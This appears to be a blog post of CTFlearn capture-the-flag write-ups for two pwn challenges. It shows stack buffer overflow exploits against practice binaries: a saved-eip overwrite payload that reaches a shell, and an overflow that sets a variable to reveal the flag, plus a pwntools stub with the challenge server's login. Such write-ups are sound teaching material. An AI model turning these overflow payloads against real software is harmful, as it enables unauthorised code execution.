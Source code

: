 ```yaml
---
title: "CTFlearn PWN Writeups"
permalink: "/ctflearn-pwn"
---
```


I plan to just keep adding PWN writeups here from [CTFlearn](https://ctflearn.com/).

1. [Favorite Color](#favorite-color-60-pts)
2. [Blackbox](#blackbox-80-pts-hard)

## Favorite Color [60 PTS Medium]

Source code is provided:

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

We can see that good will always be 0 because if you `XOR` anything with itself it returns 0, and when you `AND` anything with 0, it will also return 0.

```c
int good = 0;
for (int i = 0; buf[i]; i++) {
    good &= buf[i] ^ buf[i];
}
```
Since `vuln` always returns 0, this check will never pass:

```c
if (vuln()) {
    puts("Me too! That's my favorite color too!");
    puts("You get a shell! Flag is in flag.txt");
    system("/bin/sh");
}
```

However we can see that there is a `buffer overflow` on this line:

```c
gets(buf);
```

We can use this `buffer overflow` to overwrite the saved `eip` on the stack. 

Since we can change the saved `eip`, we can make the program skip the `if (vuln())` check.

Open the program up in `GDB` and find the offset from our input to the saved `eip`:

![saved eip offset](/assets/ctflearn/pwn/favorite-color/gdb_eip_offset.png)

We can see that we need 52 junk bytes and then our address to overwrite the saved `eip`.

Find the address of the instruction after the `if (vuln())` check:

![address of next instruction](/assets/ctflearn/pwn/favorite-color/if_addr.png)

We can see that the `if (vuln())` check is happening on address `0x08048655`, so we'll set the saved `eip` to the address after that, `0x08048657`.

> ``📝:`` To get this view just type `disassemble main`, where `main` can be any function you want to disassemble. 

Keep in mind that x86 uses [little endian](https://stackoverflow.com/a/25939262), so bytes are stored in reverse order.

Our final payload:

```sh
echo -e 'BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x57\x86\x04\x08' > /tmp/script/payload
```

The `-e` is to enable interpretation of backslash escapes. 

Now we can do `(cat /tmp/script/payload; cat) | ./color` to send the payload to the binary. 

> ``📝:`` We need to do `(cat x; cat)` because if we don't, then `stdin` will close, and we can't type anything else.

Running this, we get the flag:

```sh
color@ubuntu-512mb-nyc3-01:~$ (cat /tmp/script/payload; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
cat flag.txt
flag{REDACTED}
```

## Blackbox [80 PTS Hard]

First open it up in `GDB` to do some reverse engineering:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ gdb blackbox
GNU gdb (Ubuntu 8.1.1-0ubuntu1) 8.1.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
blackbox: No such file or directory.
(gdb) r
Starting program:
No executable file specified.
Use the "file" or "exec-file" command.
(gdb)
```

Oh it doesn't work? `GDB` is blocked in this challenge unfortunately. 

The next thing I decided to do was to see if I could make the program segfault. 

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*100)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 825307441...
*** stack smashing detected ***: <unknown> terminated
```

Looks like there's a `stack canary` and there are some weird numbers. Maybe those numbers mean something. Converting those numbers from decimal to hex gives us this:

![decimal to hex](/assets/ctflearn/pwn/blackbox/decimal_to_hex.png)


That looks like ascii. Converting to ascii:

![hex to ascii](/assets/ctflearn/pwn/blackbox/hex_to_ascii.png)

Those are the ones from this command `python -c 'print("1"*100)' | ./blackbox`.

Lets try to reduce the number of ones until that weird number doesn't show up: 

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*80)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 0...
```
80 seems like the sweetspot.

When we do 81 it outputs:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print("1"*81)' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 49...
```

When we convert 49 to hex and then to `ascii` gives us 1 again. So I am assuming that there is some `answer` variable that we aren't writing into with our input. So to write into that we are utilizing a `buffer overflow` to write into the `answer` variable. 

We want `answer` to have the value 2, so lets write 80 junk bytes and then the value 2:

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print(b"1"*80+b"2")' | ./blackbox
What is 1 + 1 = No dummy... 1 + 1 != 50...
```

... Why didn't it work?

Well we can assume that whatever is taking our input isn't taking it as an integer, so when it overwrites the `answer` variable it takes the byte representation of the character we put in. 

So all we have to do is send the actual byte `\x02`, in order for the `answer` variable to become 2.

```sh
blackbox@ubuntu-512mb-nyc3-01:~$ python -c 'print(b"1"*80+b"\x02")' | ./blackbox
What is 1 + 1 = CORRECT! You get flag:
flag{REDACTED}
```

And we got the flag!!!

If you want to use pwntools to interact with the binary you can do that!

```sh
from pwn import *

target = ssh(host='104.131.79.111', user='blackbox', password='guest', port=1001)
p = target.process(['/home/blackbox/blackbox'])

payload = # add whatever your payload is

#interact with the program like normal 
```

I won't show you the whole script because that feels too easy, but with this writeup, you should be able to complete the script!



I'll keep adding more writeups for pwn challenges here when I do them.

